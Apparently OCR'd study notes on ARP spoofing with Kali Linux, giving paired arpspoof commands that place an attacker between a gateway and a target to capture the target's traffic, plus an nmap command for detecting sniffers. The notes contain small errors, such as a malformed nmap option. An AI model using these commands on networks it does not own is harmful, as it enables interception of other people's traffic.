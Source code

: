 - checking apr entries using arp -a command
- arpspoof tool used for arp spoofing
- capturing the data packets of a device's internet activity
	- We need to put kali linux in promiscous mode first.... to do so
		-in kali linux root terminal
			- command: arpspoof -i <name of the network interface> -t <ip address of default gateway <ip address of target system>
				- eg: arpspoof -i eth0 -t 192.168.1.1 192.168.1.8
		- then in another root terminal of kali linux
			- write the same command used above, just exchange the ip of default gateway and the ip of target system
				- eg: arpspoof -i eth0 -t 192.168.1.8 192.168.1.1
		- also make sure that packet forwarding is enabled in your kali linux
- For detecting packet sniffing, nmap script can be used
	- command: nmap --script-sniffer-detect <ip address range available in our network>
		- eg: nmap --script-sniffer-detect 192.168.1.0/24
	- this script may fail sometimes when the ports are not open